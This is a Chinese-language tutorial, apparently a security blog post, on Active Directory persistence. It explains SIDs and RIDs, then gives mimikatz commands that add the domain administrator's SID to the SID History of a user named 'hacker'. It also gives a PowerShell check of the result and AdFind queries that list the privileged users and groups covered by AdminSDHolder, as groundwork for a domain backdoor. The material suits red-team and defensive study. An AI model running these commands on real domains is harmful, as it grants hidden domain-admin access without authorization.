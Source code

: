 + SID & SID History

  每个用户帐号都有一个对应的安全标识符（Security Identifiers，SID），SID用于跟踪主体在访问资源时的权限。如果存在两个同样SID的用户，这两个帐户将被鉴别为同一个帐户，原理上如果帐户无限制增加的时候，会产生同样的SID，在通常的情况下SID是唯一的，他由计算机名、当前时间、当前用户态线程的CPU耗费时间的总和三个参数决定以保证它的唯一性。

  一个完整的SID包括：

  - 用户和组的安全描述
  - 48-bit的ID authority
  - 修订版本
  - 可变的验证值Variable sub-authority values

  例：S-1-5-21-310440588-250036847-580389505-500
  第一项S表示该字符串是SID；第二项是SID的版本号，对于2000来说，这个就是1；然后是标志符的颁发机构（identifier authority），对于2000内的帐户，颁发机构就是NT，值是5。然后表示一系列的子颁发机构，前面几项是标志域的，最后一个标志着域内的帐户和组。
  可以注意到最后一个标志位为500，这个500是相对标识符（Relative Identifer, RID），账户的RID值是固定的。一般克隆用户原理就是篡改其他用户的RID值使系统认为对应用户是管理员。
  常见的RID：500-管理员 519-EA 501-Guest

  SID History是一个支持域迁移方案的属性，使得一个账户的访问权限可以有效地克隆到另一个账户中，在域迁移中很适用。

+ SID History的利用

  通过将域管理员用户的SID添加到其他域用户的SID History中以维持权限的持久化，需要拥有域管理员级别的权限

  1.向域控制器上传mimikatz

  执行以下命令，将域管用户的SID添加到hacker用户的SID History中

  ```shell
  #mimikatz>2.1.0
  mimikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:hacker /new:Administrator" exit 
  #mimikatz<2.1.0
  mimikatz.exe "privilege::debug" "misc:addsid hacker ADSAdministrator" exit 
  ```

  2.通过powershell查看hacker用户的sid history

  ```shell
  Import-Module ActiveDirectory
  Get-ADUser Hacker -Properties SIDHistory
  ```

  3.通过hacker用户连接域控制器，可以是横向中的提供用户凭据的任意方法，登陆后可以通过whoami /priv查看到hacker用户拥有域管理员的所有权限

### 利用AdminSDHolder打造域后门

+ AdminSDHolder

  AdminSDHolder是一个特殊的AD容器对象，位于Domain NC的System容器下用于管理和保护高权限用户或组的安全描述符，AdminSDHolder容器的主要目的是确保在域中具有高权限的用户和组（如域管理员、企业管理员等）不受非授权的更改。它通过定期检查和重置这些对象的安全描述符来实现这一目标，以防止恶意用户或恶意程序修改其权限。

  ![AdminSDHistory](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/AdminSDHistory.png)
  
  收保护的对象通常包括系统的特权用户和重要的组，例如Administrator,Domain Admins,Enterprise Admins以及Schema Admins等
  
  在活动目录中，属性adminCount用来标记特权用户和组。对于特权用户和组来说，该属性被设置为1，通过AdFind查询adminCount属性设置为1的对象，可以找到所有被保护的特权用户和组。
  
  ```shell
  #枚举受保护的用户
  Adfind.exe -b DC=hack,DC=com -f "&(objectcategory=person)(samaccountname=*)(admincount=1)" -dn
  #枚举受保护的组
  Adfind.exe -b DC=hack,DC=com -f "&(objectcategory=group)(admincount=1)" -dn
  ```
  
